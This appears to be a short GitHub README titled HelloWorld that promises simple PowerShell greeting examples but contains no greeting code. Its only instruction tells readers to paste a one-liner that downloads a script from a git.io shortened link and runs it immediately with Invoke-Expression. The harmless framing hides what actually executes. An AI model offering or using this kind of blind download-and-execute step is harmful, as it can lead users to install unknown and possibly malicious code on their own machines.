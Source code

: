 # HelloWorld
Simple code examples how to make a nice greeting in Powershell

To make it working directly for your local machine, open powershell and paste this: 

 "https://git.io/JkkhR"| %{iex ((New-Object System.Net.WebClient).DownloadString($_))}
